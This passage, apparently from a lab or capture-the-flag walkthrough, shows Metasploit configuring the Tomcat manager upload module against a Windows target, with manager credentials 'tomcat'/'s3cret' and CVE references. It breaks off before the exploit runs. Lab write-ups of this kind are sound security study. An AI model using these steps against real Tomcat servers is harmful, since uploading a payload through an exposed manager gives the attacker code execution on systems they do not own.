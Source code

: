 ```

Available targets:
      Id  Name
      --  ----
  =>  0   Java Universal
      1   Windows Universal
      2   Linux x86

Check supported:
  Yes

Basic options:
  Name          Current Setting  Required  Description
  ----          ---------------  --------  -----------
  HttpPassword                   no        The password for the specified username
  HttpUsername                   no        The username to authenticate as
  Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT         80               yes       The target port (TCP)
  SSL           false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
  VHOST                          no        HTTP server virtual host

Payload information:

Description:
  This module can be used to execute a payload on Apache Tomcat 
  servers that have an exposed "manager" application. The payload is 
  uploaded as a WAR archive containing a jsp application using a POST 
  request against the /manager/html/upload component. NOTE: The 
  compatible payload sets vary based on the selected target. For 
  example, you must select the Windows target to use native Windows 
  payloads.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2009-3843
  OSVDB (60317)
  https://nvd.nist.gov/vuln/detail/CVE-2009-4189
  OSVDB (60670)
  https://nvd.nist.gov/vuln/detail/CVE-2009-4188
  http://www.securityfocus.com/bid/38084
  https://nvd.nist.gov/vuln/detail/CVE-2010-0557
  http://www-01.ibm.com/support/docview.wss?uid=swg21419179
  https://nvd.nist.gov/vuln/detail/CVE-2010-4094
  http://www.zerodayinitiative.com/advisories/ZDI-10-214
  https://nvd.nist.gov/vuln/detail/CVE-2009-3548
  OSVDB (60176)
  http://www.securityfocus.com/bid/36954
  http://tomcat.apache.org/tomcat-5.5-doc/manager-howto.html


View the full module info with the info -d command.
```
We saw that the target is running on Windows, so we need to change it:
```
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set target 1
target => 1
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set HttpPassword s3cret
HttpPassword => s3cret
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set HttpUsername tomcat
```